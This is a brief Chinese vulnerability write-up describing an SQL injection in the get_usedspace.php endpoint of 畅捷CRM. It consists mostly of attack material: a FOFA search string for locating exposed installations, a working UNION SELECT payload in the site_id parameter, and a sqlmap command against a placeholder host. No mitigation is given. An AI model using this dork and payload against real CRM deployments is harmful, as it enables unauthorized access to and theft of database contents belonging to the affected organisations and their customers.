 # 畅捷CRM get_usedspace.php SQL注入漏洞

## 漏洞描述

畅捷CRM get_usedspace.php存在SQL漏洞，通过漏洞可获取数据库敏感信息

## 漏洞影响

```
畅捷CRM
```

## FOFA

```
title="畅捷CRM"
```

## 漏洞复现

登录页面

![image-20220525145239822](./images/202205251452933.png)

验证POC

```
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--
```

![image-20220525145324633](./images/202205251453704.png)

使用Sqlmap验证漏洞

```
sqlmap -u "http://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id
```